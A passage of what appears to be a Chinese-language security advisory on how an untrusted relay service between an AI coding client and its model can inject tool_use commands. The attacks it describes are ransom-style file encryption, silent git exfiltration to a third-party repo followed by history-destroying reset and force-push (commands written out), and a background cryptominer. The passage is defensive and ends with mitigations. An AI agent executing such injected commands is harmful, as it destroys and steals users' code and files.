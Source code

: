 ```mermaid
        Note right of Client: 用戶項目文件被加密, <br> 原始文件被刪除
        Client->>User: 顯示特定信息: <br> "你的文件已被加密, <br>請聯繫..."
    end

    alt 方式二: 代碼倉庫控制
        Client->>Client: 執行非預期Tool Use (git): <br> 1. git remote add backup ... <br> 2. git push backup master <br> 3. git reset --hard HEAD~100 <br> 4. git push origin master --force
        Note right of Client: 本地和遠程代碼歷史被清除
        Client->>User: 顯示特定信息: <br> "你的代碼庫已被清空, <br>請聯繫...恢復"
    end
```

### 風險流程解析

數據劫持的流程與信息獲取類似，但在最後一步的目標是「破壞」而非「獲取」。

#### 方式一：文件加密

這種方式是傳統安全風險在AI時代的變種。

1. **注入加密指令**: 不可信的中轉服務在模型返回的響應中，注入一個或一系列破壞性的 `tool_use` 指令。例如，一個 `execute_shell` 指令，其內容是遍歷用戶硬盤，使用 `openssl` 或其它加密工具對特定文件類型（如 `.js`, `.py`, `.go`, `.md`）進行加密，並刪除原文件。
2. **客戶端執行**: 客戶端的Tool Use執行器在用戶未察覺的情況下執行了這些指令。
3. **顯示特定信息**: 加密完成後，可以注入最後一個指令，彈出一個文件或在終端顯示特定信息，要求用戶進行聯繫以恢復數據。

#### 方式二：代碼倉庫控制

這是針對開發者的精準打擊，潛在危害性極大。

1. **注入Git操作指令**: 不可信的中轉服務注入一系列 `git` 相關的 `tool_use` 指令。
2. **代碼備份**: 第一步，靜默地將用戶的代碼推送到攻擊者私有倉庫。`git remote add backup <third_party_repo_url>`，然後 `git push backup master`。
3. **代碼銷毀**: 第二步，執行破壞性操作。`git reset --hard <a_very_old_commit>` 將本地倉庫回滾到一個很早的狀態，然後 `git push origin master --force` 強制推送到用戶的遠程倉庫（如GitHub），這將徹底覆蓋遠端的提交歷史。
4. **後續操作**: 用戶會發現自己的本地和遠程倉庫代碼幾乎全部丟失。操作者通過之前留下的聯繫方式（或在代碼中注入一個信息文件）進行聯繫，以進行後續的數據恢復協商。

這種操作的嚴重性在於，它不僅破壞了本地工作區，還可能摧毀了遠程備份，對於沒有其它備份習慣的開發者來說是致命的。

### 如何防範

除了之前提到的防範措施外，針對數據劫持還需要：

* **做好數據備份**: 定期對重要文件和代碼倉庫進行多地、離線備份。這是抵禦任何形式數據風險的最終防線。
* **最小權限原則**: 運行客戶端（特別是IDE插件）的用戶應具有盡可能低的系統權限，避免其能夠加密整個硬盤或執行敏感系統命令。

## 更多高級風險向量

除了直接的信息獲取和數據劫持，不可信的中轉服務還可以利用其中間人地位，發動更高等、更隱蔽的行動。

### 方式三：資源劫持 (Resource Hijacking)

操作者的目標不一定是用戶的數據，而可能是用戶的計算資源。這是一種長期的寄生式風險。

1. **注入挖礦指令**: 當用戶發出一個常規請求後，中轉商在返回的響應中注入一個 `execute_shell` 指令。
2. **後台執行**: 該指令會從攻擊者伺服器下載一個靜默的加密貨幣挖礦程序，並使用 `nohup` 或類似技術在後台悄無聲息地運行。
3. **長期潛伏**: 用戶可能只會感覺到電腦變慢或風扇噪音變大，很難直接發現後台的進程。操作者則可以持續利用用戶的CPU/GPU資源獲利。
